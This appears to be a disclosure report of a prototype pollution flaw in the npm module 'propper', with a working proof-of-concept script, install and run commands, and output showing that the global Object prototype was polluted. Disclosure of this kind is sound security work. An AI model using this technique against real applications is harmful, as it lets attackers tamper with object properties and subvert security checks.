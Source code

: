 # Description

Prototype Pollution in propper

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var propper = require("propper")
var obj = {}
console.log("Before : " + {}.polluted);
propper(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i propper # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
